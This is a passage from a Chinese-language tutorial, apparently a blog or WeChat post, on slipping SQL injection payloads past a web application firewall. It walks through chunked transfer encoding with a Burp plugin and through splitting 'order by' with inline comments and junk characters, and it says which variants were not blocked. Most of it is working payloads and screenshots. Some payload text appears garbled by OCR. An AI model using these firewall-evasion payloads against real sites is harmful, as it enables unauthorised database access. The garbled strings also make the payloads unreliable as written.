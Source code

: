 1’ and /_!1_/=/_!2_/ —+

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS2C11xalVib6CH3zWISeWyodGicVBxF3LqMdhgYXAbeoKmeANJbAHiaHsww/640?wx_fmt=jpeg)

#### **方法三  分块传输**

#### 分块传输的原理请自行检索，这里不再赘述。

分块传输插件：https://github.com/c0ny1/chunked-coding-converter/releases/tag/0.2.1

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS2S9r60iaNduLay8n20ib0rnF83tgZqD87CMp56YUcw6oL7euic3cgepIMg/640?wx_fmt=jpeg)

正常写测试 payload :    1’ and 1=1 —+

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS2a3tyNGRnydrROYx1qF2wwOsrM1s5WJZ0KZ5zG61HF115WAMaeqFH7Q/640?wx_fmt=jpeg)

将请求方式改为 POST，然后进行分块传输编码

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS20brCQmGkYk4rhrqZwau0xYu5S8ibooUspuANibjLrRjvCibHWteRicgE3Q/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS2mAEHmTFeia8pVaBJlMsr2R6viaV4iaGLziaUq09m0TgzIdyyRkKia54j6ag/640?wx_fmt=jpeg)

可以看到，没有被拦截。

1’ and 1=2 —+

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS2QbASfpXh51rM6uquQ0POMia7fkEVroicQN8SopvEVopyIhELPyAZia2Fw/640?wx_fmt=jpeg)

### 猜解字段数

#### **方法一**

order by 被拦截

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS2LIlEQ2nfnLI5QmLkXZn65FStXp8DdM2gJzHkz5AFSrSQoOU8ibu1FKg/640?wx_fmt=jpeg)

单独的 order 和单独的 by 都不会被拦截，我们需要在 order by 之间加各种无效字符。

可以将 1' order /*$xxx$*/ by 1 --+  放 burp 里跑各种垃圾参数字典来爆破。

经过测试，**1’ order/_%%!asd%%%%_/by 3 —+** 可以成功过狗

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS2jGnqhicqY1ibXvarr2CXJnSWRibndib9xMckhibVCyIRzibgUnFbblQRvicmA/640?wx_fmt=jpeg)

通过内联注释 /_!_/ 和注释 /**/ 以及一些无效字符也可以绕过（需要不断 Fuzz 尝试）

**1’ /_!order/_!/*/**/by_/ 3 —+*_

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS2jPSANCibstoIGhL2uY7Cn5k7S9QlRRZz9fGwcXuIpHcGiaEvdzRXVqqg/640?wx_fmt=jpeg)

#### **方法二 分块传输**

1’ order by 3 —+

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS2SIKEwxvibP6IkUyuJPAiavcFGd2jXRNPgoibmFkgS1ib2TYZqcImZgrdTw/640?wx_fmt=jpeg)
